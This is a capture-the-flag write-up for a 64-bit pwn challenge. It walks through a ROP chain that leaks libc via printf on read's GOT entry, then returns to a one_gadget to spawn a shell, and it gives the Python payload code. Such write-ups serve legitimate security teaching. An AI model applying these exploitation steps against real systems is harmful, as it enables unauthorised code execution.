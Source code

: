 ## Stop, ROP, n', Roll
**Category:** pwn  
**Points:** 280

## Writeup
Another ROP, this time on 64 bit. We don't have any quirky functions that spawn a shell or anything, so we'll have to do it ourselves.  
Our final goal is to call a [one_gadget](https://github.com/david942j/one_gadget), which is literally ```execve("/bin/sh")```, giving us a shell.  
Since ASLR is enabled, though, we need to leak libc first.

This is the entire plan:
1. Leak libc and calculate one_gadget
2. Spawn a shell
# Libc leak
To leak libc, we need to pass a libc function's GOT address into ```printf```. On 64 machines, this means loading the ```rdi``` register with a libc function's GOT. Conveniently, there's a gadget that pops rdi and returns at ```0x400823```, so we'll use that.  
We'll also return back to ```main`` after we call leak libc, since we need to send a second payload that actually spawns the shell.
This is the payload in python (also can be found in the file):
```
payload = 'a'*17  			#  padding
payload += p64(pop_rdi)			#  pop the argument to printf, aka the next element on the stack is printf's arg
payload += p64(e.got["read"])		#  printf's argument is read's GOT. we're leaking read's resolved address.
payload += p64(ret)			#  random ret here for padding (not adding this caused segfaults for some reason?) this still returns into printf, so it's fine
payload += p64(e.plt["printf"])		#  printf call that leaks read's address
payload += p64(ret)			#  another ret for padding
payload += p64(main)			#  return back to main. this payload for leaking libc, the next one will spawn a shell since we can calculate one_gadget.
```
# Shell spawning
The easy part. Pretty self-explanatory, just overwrite ```main```'s return to the ```one_gadget```.
```
payload = 'a'*17			#  padding
payload += p64(og)			#  calculated address of one_gadget
```
